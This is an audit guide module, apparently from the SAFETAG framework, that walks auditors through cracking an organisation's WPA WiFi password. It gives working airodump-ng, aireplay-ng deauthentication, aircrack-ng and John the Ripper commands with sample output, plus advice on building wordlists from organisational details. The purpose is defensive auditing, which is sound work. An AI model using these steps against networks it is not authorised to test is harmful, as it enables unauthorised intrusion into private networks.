 ```yaml
---
id: wpa-password-cracking
name: WPA Password Cracking
description: The organization’s wireless Local Area Network (WLAN) protects the network and its users with WPA encryption. This is...
---
```

# WPA Password Cracking

## Summary

The organization’s wireless Local Area Network (WLAN) protects the network and its users with WPA encryption. This is an important security measure, and a WPA-protected wireless network is much safer than an unencrypted “open” network or a WEP-protected network. (WEP is fundamentally flawed, and extremely simple attacks have been widely known for over a decade.) However, the ease with an attacker could guess the WPA key, or “WiFi password,” is a serious issue, particularly considering its importance as an essential perimeter control. An attacker who gains access to the wireless LAN immediately bypasses many protections that network administrators, and other users of the office network, often take for granted. Put another way, anyone able to guess the WPA key is immediately “inside the firewall.”

Using a laptop and a wireless card with a standard, internal antenna (or using a customized smartphone or other small device), an attacker could easily position themselves close enough to the office to carry out the first phase of this attack, which would only take a few minutes. The second phase, which is supposed to be the difficult part, could take even less time. From the privacy of their own home or office, the attacker could use a minimally customized password dictionary to guess the WPA key .

<!--For reporting, needs time-to-break WPA password -->


## Materials Needed

* For the (most common) WPA password-based attacks, an already-prepared dictionary of words to use to attack the password will be required. See the Appendix on Audit Preparation for guidance on dictionary preparation.


## Walkthrough

An attacker can crack the office’s WPA key in approximately with a short and minimally customized password dictionary based on open information about the organization and basic word collections.

**Step 1:** The attacker customizes their WiFi password dictionary, adding phrases related to the subject: organization name, street address, phone number, email domain, wireless network name, etc. Common password fragments are included, as well: qwerty, 12345, asdf and all four-digit dates back to the year 2001, for example, among others. He may then add hundreds or thousands of words (in English and/or other relevant languages).

See the Dictionary Creation example under Preparation for details on password dictionary buidling.

**Step 2:** The attacker would then begin recording all (encrypted) wireless traffic associated with the organization’s access point:

```
$ sudo airodump-ng -c 1 --bssid 1A:2B:3C:4D:5E:6F -w sampleorg_airodump mon0

 CH  1 ][ Elapsed: 12 mins ][ 2012-01-23 12:34 ][ fixed channel mon0: -1                                                   
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID                                                         
 1A:2B:3C:4D:5E:6F  -70 100    12345    43210    6   1  12e. WPA2 CCMP   PSK sampleorg                                                         
 BSSID              STATION            PWR   Rate    Lost  Packets  Probes                                                                  
 1A:2B:3C:4D:5E:6F  01:23:45:67:89:01    0    0e- 0e   186    12345
 1A:2B:3C:4D:5E:6F  AB:CD:EF:AB:CD:EF    0    1e- 1      0     1234
 1A:2B:3C:4D:5E:6F  AA:BB:CC:DD:EE:FF  -76    0e- 1      0     1122
 1A:2B:3C:4D:5E:6F  A1:B2:C3:D4:E5:F6  -80    0e- 1      0     4321
```

wifite is also useful for this step, and claims to automatically de-auth (step 3).

**Step 3:** Next, the auditor forces a wireless client, possibly chosen at random, to disconnect and reconnect (an operation that is nearly always invisible to the user). 

In the example below, AB:CD:EF:AB:CD:EF is the MAC address of a laptop that was briefly disconnected in this way.

```
$ aireplay-ng -0 1 -a 1A:2B:3C:4D:5E:6F -c AB:CD:EF:AB:CD:EF mon0 

 15:54:48  Waiting for beacon frame (BSSID: 1A:2B:3C:4D:5E:6F) on channel -1
 15:54:49  Sending 64 directed DeAuth. STMAC: [AB:CD:EF:AB:CD:EF] [ 5| 3 ACKs]
```

The goal of this step is to capture the cryptographic handshake that occurs when the targeted client reconnects. Try using different clients if the first one doesn't work, or try (physically) moving around. 

This handshake does not contain the WPA key itself, but once the the complete handshake process has been seen, the auditor (or a potential attacker) can leave the vicinity and run various password cracking tools to try and discover the password. While a complete password cracking tutorial is out of scope for SAFETAG documentation, below are three strategies:

**Step 4:** The auditor attempts to discover the WPA password.

A good wordlist with a few tweaks tends to break an unforunate number of passwords.  Using a collection of all english words, all words from the language of the organization being audited, plus a combination of all these words, plus relevant keywords, addresses, and years tends to crack most wifi passwords.

```bash
    $ aircrack-ng -w pwdpairs.txt -b 1A:2B:3C:4D:5E:6F sampleorg_airodump*.cap
```

For WPA captures, John can either feed in to an aircrack process or attack a capture directly.  For captures, you first have to convert the .cap file (from wireshark, wifite, airodump, etc.) to a format that John likes.  The Jumbo version we use has conversion tools for this available: 

```bash
  $wpapcap2john wpa.cap > crackme
  $./john -w:password.lst -fo=wpapsk-cuda crackme 
```

##### Results
Successful password cracking via piping these into aircrack-ng:

```
 Opening sampleorg_airodump-01.cap
 Reading packets, please wait...
                                 Aircrack-ng 1.1
                    [00:00:05] 9123 keys tested (1876.54 k/s)
                           KEY FOUND! [ sample2012 ]

      Master Key     : 2A 7C B1 92 C4 61 A9 F6 7F 98 6B C1 AB 53 7A 0F 
                       3C AF D7 9A 0C BD F0 4B A2 44 EE 5B 13 94 12 12 

      Transient Key  : A9 C8 AD 47 F9 71 2A C6 55 F8 F0 73 FB 9A E6 1D 
                       23 D9 31 25 5D B1 CF EA 99 2C B3 D7 E5 7F 91 2D 
                       56 25 D5 9A 1F AD C5 02 E3 2C C9 ED 74 55 BA 94 
                       D6 F5 0A D1 3B FB 39 40 19 C9 BA 65 2E 49 3D 14 

      EAPOL HMAC     : F1 DF 09 C4 5A 96 0B AD 83 DD F9 07 4E FA 19 74 
```

The fourth line of the above output provides some useful information about the effectiveness of a strong WPA key. That rate of approximately 2000 keys per second means that a full-on, brute-force attack against a similar-length key that was truly random (and therefore immune to dictionary-based attacks) would take about 70^9 or 20 trillion seconds, which is well over 600,000 years. Or, for those who favor length and simplicity over brevity and complexity, a key containing four words chosen from among the 10,000 most common English dictionary words would still take approximately 150,000 years to crack (using this method on an average laptop).

It is worth noting that an attacker with the resources and the expertise could increase this rate by a factor of a hundred. Using a computer with powerful graphical processing units (GPUs) or a cloud computing service like Amazon’s EC2, it is possible to test 250,000 or more keys per second. A setup like this would still take several lifetimes to guess a strong password, however.

Regardless, the success of this attack against a wireless network would allow an attacker to bypass all perimeter controls, including the network firewall. Without access to the office LAN, a non-ISP, non-government attacker would have to position himself on the same network as an external staff member in order to exploit any flaws in the organization’s email or file-sharing services. With access to the local network, however, that attacker could begin carrying out Local attacks quite quickly, and from a distance.

With regard to the distance from which an attacker could maintain such access, the office WiFi network appears to have a relatively strong signal, which extends to the street out front:

{photograph of location}

Figure 1: WiFi signal strength from a nearby location

{screenshot of WiFi strength}


##### Material that may be Useful:

  * *Tutorial:* [“How to Crack WPA/WPA2”](http://www.aircrack-ng.org/doku.php?id=cracking_wpa) (Aircrack-ng Wiki)
[“Aircrack-ng”](http://www.aircrack-ng.org/doku.php?id=aircrack-ng) (Aircrack-ng Wiki)
  * *Documentation:* [“Aireplay-ng”](http://www.aircrack-ng.org/doku.php?id=aireplay-ng) (Aircrack-ng Wiki)
  * *Documentation:* [“Airodump-ng”](http://www.aircrack-ng.org/doku.php?id=airodump-ng) (Aircrack-ng Wiki)


